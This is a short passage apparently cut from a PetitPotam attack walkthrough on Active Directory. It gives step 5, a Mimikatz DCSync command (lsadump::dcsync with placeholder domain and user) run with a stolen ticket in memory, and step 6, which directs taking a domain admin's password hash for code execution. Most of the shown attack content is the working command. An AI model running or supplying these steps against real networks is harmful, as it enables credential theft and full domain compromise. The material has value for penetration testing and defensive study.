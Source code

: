 ## 5. *Having the TGT in memory,* use Mimikatz to do a DCSync attack
```bash
lsadump::dcsync /domain:<DOMAINFQDN> /user:<TARGET_USER>
```

![dcsync-for-domain-admin-hash](/assets/petitpotam/dcsync-for-domain-admin-hash.jpg)

## 6. Grab any domain admin's hash to have code execution
